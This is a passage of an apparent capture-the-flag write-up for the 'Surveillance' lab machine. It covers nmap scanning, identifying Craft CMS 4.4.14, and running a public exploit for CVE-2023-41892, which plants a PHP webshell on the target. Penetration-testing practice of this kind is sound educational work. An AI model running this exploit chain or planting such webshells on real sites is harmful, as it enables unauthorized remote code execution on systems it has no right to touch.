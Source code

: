* -sVC: Identifies service and version.
* -p-: scans all the range of ports (1-65535).
* --open: shows only open ports and not filtered or closed.
* -sS: TCP SYN scan that improves velocity because it doesn't establish the connection.
* --min-rate 5000: Sends 5000 packets per second to improve velocity (don't do this in a real environment).
* -n: Disables DNS resolution protocol.
* -Pn: Disables host discovery protocol (ping).
* -oN targeted: Exports the evidence to a file named "tcpTargeted".

We see the port 22 and 80. Also, we have the domain surveillance.htb so I will add it to the /etc/hosts. Since we don't have credentials because we are in the recon phase, let's enumerate the port 80.

## Web enumeration

In this step, I will launch whatweb to recognize a little bit the web.

```plaintext
❯ whatweb http://surveillance.htb
http://surveillance.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[demo@surveillance.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.245], JQuery[3.4.1], Script[text/javascript], Title[Surveillance], X-Powered-By[Craft CMS], X-UA-Compatible[IE=edge], nginx[1.18.0]
```

We can see that is powered by Craft CMS and if we look in the source page of the web we can see that it's version 4.4.14:

![4.4.14](/assets/images/Surveillance/version-4.4.14.png)

Now if we search in google for exploits for this version, we can see [this page](https://github.com/Faelian/CraftCMS_CVE-2023-41892) that has a exploit written in python which we can run to obtain RCE:

```plaintext
❯ git clone https://github.com/Faelian/CraftCMS_CVE-2023-41892
Cloning into 'CraftCMS_CVE-2023-41892'...
remote: Enumerating objects: 16, done.
remote: Counting objects: 100% (16/16), done.
remote: Compressing objects: 100% (14/14), done.
remote: Total 16 (delta 2), reused 9 (delta 0), pack-reused 0
Receiving objects: 100% (16/16), 82.87 KiB | 684.00 KiB/s, done.
Resolving deltas: 100% (2/2), done.
❯ cd CraftCMS_CVE-2023-41892
❯ ls
craft-cms.py  exploit.png  README.md
❯ python3 craft-cms.py http://surveillance.htb
[+] Executing phpinfo to extract some config infos
temporary directory: /tmp
web server root: /var/www/html/craft/web
[+] create shell.php in /tmp
[+] trick imagick to move shell.php in /var/www/html/craft/web

[+] Webshell is deployed: http://surveillance.htb/shell.php?cmd=whoami
[+] Remember to delete shell.php in /var/www/html/craft/web when you're done

[!] Enjoy your shell

> whoami
```
